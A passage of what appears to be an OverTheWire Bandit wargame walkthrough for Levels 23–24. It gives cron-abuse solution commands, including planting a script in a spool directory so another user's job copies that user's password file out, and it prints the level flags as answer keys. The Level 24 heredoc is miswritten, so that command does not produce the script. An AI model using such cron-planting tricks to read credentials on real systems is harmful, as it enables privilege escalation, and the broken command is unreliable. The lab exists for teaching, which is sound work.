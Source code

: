 {% tab title="Flag" %}
```
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```
{% endtab %}
{% endtabs %}

## Level 23

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
>
> **NOTE:** Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.

{% tabs %}
{% tab title="Solution" %}
```bash
cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f1)
```
{% endtab %}

{% tab title="Flag" %}
```
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```
{% endtab %}
{% endtabs %}

## Level 24

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
>
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
>
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

{% tabs %}
{% tab title="Solution" %}
```bash
mkdir /tmp/bandit24_results
cd /tmp/bandit24_results
touch password.txt
chmod 666 password.txt
echo <<EOF > ./get_password.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_results/password.txt
EOF
chmod 777 ./get_password.sh
cp ./get_password.sh /var/spool/bandit24
watch cat password.txt
```
{% endtab %}
